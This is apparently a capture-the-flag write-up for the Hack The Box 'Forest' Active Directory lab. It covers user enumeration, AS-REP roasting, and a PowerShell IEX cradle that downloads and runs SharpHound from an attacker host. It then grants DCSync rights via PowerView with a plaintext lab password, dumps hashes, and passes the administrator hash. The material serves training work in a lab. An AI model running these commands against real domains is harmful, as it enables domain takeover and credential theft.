







# Nmap
TCP Ports : 88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49674,49675,49680,49695,49704
```sh
PORT      STATE SERVICE      REASON  VERSION
88/tcp    open  kerberos-sec syn-ack Microsoft Windows Kerberos (server time: 2024-02-27 14:04:31Z)
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap         syn-ack Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open              syn-ack Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?    syn-ack
593/tcp   open  ncacn_http   syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped   syn-ack
3268/tcp  open  ldap         syn-ack Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped   syn-ack
5985/tcp  open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       syn-ack .NET Message Framing
47001/tcp open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
....
```

# RPCclient

We will enumerate users with rpcclient
```sh
rpcclient -U "" -N  10.10.10.161
```



We note down all the usernames.

# Enum4linux

Enum4linux gives us loads of  information. Including the usernames, domain group memberships, password policies etc
```sh
enum4linux 10.10.10.161 
```


# As-rep roasting
We can put the users in a text file and lookup users who do not have pre-authentication in place:

```sh
impacket-GetNPUsers -dc-ip 10.10.10.161  -request    -usersfile ../../users.txt htb.local/Guest
```



Yes! We have a password!



we can log in as the user svc-alfresco with evil-winrm



# Privilege escalation
To gather information about the domain we can use SharpHound.ps1. I like to run it from memory:
```ps
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('http://10.10.14.11/SharpHound.ps1');Invoke-BloodHound -CollectionMethod All" 
```

It took me while to figure out the path. But I managed.



Our account svc-alfresco is member of the “SERVICE ACCOUNTS@HTB.LOCAL” group which is nested in “PRIVILEGED IT ACCOUNTS@HTB.LOCAL” group which again is nested in “ACCOUNT OPERATORS@HTB.LOCAL” group.

According to Microsoft: 
> The Account  Operators group applies to the Windows Server operating system in the  Default Active Directory security groups list. By default, this built-in group has no members.  The group can create and manage users and groups in the domain,  including its own membership and that of the Server Operators group.

The account operator group has GenericAll (= Full) permissions on the “EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL” Group. Which means we can add members ti that group.

> The members of the group EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL have permissions to modify the DACL (Discretionary Access Control List) on the domain HTB.LOCAL

> A discretionary access control list (DACL) identifies the trustees that are allowed or denied access to a securable object.  When a process tries to access a securable object, the system checks  the ACEs in the object's DACL to determine whether to grant access to  it.

After we add a user to the group we can grant DSYNC rights to that user and perform a 
Domain Controller Synchronization.


Let's add our user to the “EXCHANGE WINDOWS PERMISSIONS” GROUP.

![(groupadd.png)

And follow the steps given by bloodhound.:

```psh
Import-Module .\PowerView.ps1
$SecPassword = ConvertTo-SecureString 's3rvice' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\svc-alfresco', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity svc-alfresco -Rights DCSync
```

Now we can dump all the hashes with secretsdump



Pass the administrator hash with evil-winrm and get the root flag!



